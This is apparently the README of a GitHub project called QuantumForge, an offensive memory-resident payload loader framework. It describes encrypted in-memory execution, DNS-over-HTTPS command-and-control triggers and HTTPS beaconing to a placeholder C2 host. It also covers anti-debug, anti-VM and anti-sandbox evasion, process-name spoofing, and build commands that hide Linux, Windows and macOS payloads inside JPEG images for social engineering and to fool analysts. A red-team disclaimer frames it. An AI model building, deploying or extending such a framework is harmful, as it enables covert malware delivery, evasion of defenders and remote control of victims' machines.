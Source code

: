 # QuantumForge 🔬🧠

> **Cross-Platform, Memory-Resident Payload Framework**  
> _Polymorphic | AES+HKDF Encrypted | DNS-over-HTTPS Trigger | No Disk Writes_

---

## 🛡️ DISCLAIMER

**For educational and authorized red team engagements only.**  
Use of this code without proper authorization may violate laws and ethical guidelines.  
**You are responsible for your actions.**

---

## 🧬 Overview

**QuantumForge** is an advanced post-exploitation loader framework with the following goals:

- **Cross-platform compatibility** (Linux, macOS, Windows)
- **In-memory execution** only (no disk writes)
- **Polymorphic, self-modifying loader**
- **AES-256-CBC + HKDF** payload encryption
- **Modular second-stage loading**:
  - Shellcode
  - Reflective `.so`/`.dll` injection (stage2)
- **C2 trigger via DNS-over-HTTPS**
- **Beaconing via HTTPS POST**
- **Static and behavioral anti-analysis defenses**

---

## 💻 Supported Platforms

| Platform | Loader | Features |
|----------|--------|----------|
| Linux 🐧 | `quantum_server` | `memfd_create`, `dlopen` second-stage, anti-debug, anti-vm |
| Windows 🪟 | `quantum_loader_win.exe` | Reflective DLL (planned), Bcrypt AES, WinHttp beacon |
| macOS 🍎 | `quantum_loader_mac` | `mach_vm_allocate` shellcode exec, CCCrypt AES, curl beacon |

---

## ⚙️ Features

- 🔐 **AES-256-CBC + HKDF** encryption (OpenSSL / Bcrypt / CCCrypt)
- 🔁 **XOR-masked memory** post-decryption
- 🧠 **Polymorphic payloads** with randomized NOP sleds (`junk.h`)
- 📡 **DNS-over-HTTPS activation trigger**
- 📤 **HTTPS beaconing** (base64-encoded POST)
- 🔄 **Second-stage loader**:
  - Linux: `dlopen()` from `memfd_create`
  - Windows: Reflective loader (stub included)
  - macOS: Shellcode (Mach-O loader optional)
- 🧨 **Self-delete & unlink** logic
- 🕵️‍♂️ **Anti-debug, anti-vm, anti-sandbox** (RDTSC, sysctl, CPUID, etc)
- 🖼️ **JPEG polyglot** creation for social engineering
- 🔒 **Section scrubbing + mprotect(PROT_NONE)** to erase decrypted data
- 🎭 **Process name spoofing** (`[kworker]`, `svchost.exe`, `launchd`)

---

## 🧪 Usage

1️⃣ Build Linux Payload

```bash
./quantum_forge.sh cat.jpg payload.bin 00112233445566778899aabbccddeeff 0123456789abcdef
Output: cat.jpg (JPEG+ELF polyglot)
```
2️⃣ Build Windows Payload
```powershell
.\quantum_forge_win.ps1 -Image "cat.jpg" -Payload "win_payload.bin" `
  -BaseKey "QuantumKey123456" -Salt "FixedSalt456" -IV "1234567890abcdef"
Output: cat.jpg (JPEG+EXE polyglot)
```
3️⃣ Build macOS Payload
```bash
./quantum_forge_mac.sh cat.jpg payload_macos.bin QuantumKey123 FixedSalt456 1234567890abcdef
Output: cat.jpg (JPEG+Mach-O polyglot)
```
###  🔫 Runtime Flags
Flag	Description
--no-doh	Skip DNS-over-HTTPS activation
--no-selfdelete	Do not delete the binary after execution
--fallback-only	Serve payload over HTTP on port 8080 only


### 🛰️ C2 Trigger + Beacon (DNS-over-HTTPS)
Trigger payload execution remotely:
TXT record for c2.example.com:
"C2_TRIGGER:1"
Beacon is sent via POST https://c2.example.com/beacon
Payload: base64-encoded shellcode or second-stage blob.


###  🔍 Analysis Evasion
Technique	Description
junk.h	Random instructions for each build (nop, mov, lea, etc.)
Section renaming	Random .text section name per build
Memory wiping	mprotect(PROT_NONE) and scramble_self() to zero disk image
Anti-debug	Checks TracerPid, ptrace, or Win NtQueryInformationProcess
Anti-vm	CPUID vendor string check (e.g. KVMKVMKVM, VMwareVMware)
Anti-sandbox	Sleep delta check using RDTSC or high-precision timers


### 🧩 Second-Stage Support

QuantumForge supports modular payloads:

| Type                | Linux                       | Windows              | macOS                        |
|---------------------|-----------------------------|----------------------|------------------------------|
| Shellcode           | ✅                          | ✅                   | ✅                           |
| ELF binary          | ✅ `exec_memfd()`           | ❌                   | ❌                           |
| Shared object (.so) | ✅ via `dlopen("/proc/self/fd")` | ❌ *(planned)*     | ❌                           |
| Reflective DLL (.dll) | ❌                        | 🚧 *(stub included)* | ❌                           |
| Mach-O dylib        | 🚧 *(planned)*              | ❌                   | 🚧 *(planned via custom loader)* |

---
### 🧷 Notes
Payload encryption is never stored in plaintext on disk.

All second-stage logic executes entirely in memory.

Polyglot payloads will open as JPEGs when inspected by analysts or tools.

---
##🧨 Warning
This project is a powerful binary obfuscation and delivery framework.
Do not use it without legal authorization. Abuse will not be tolerated or supported.

---
## 📜 License
MIT License for research and educational use.






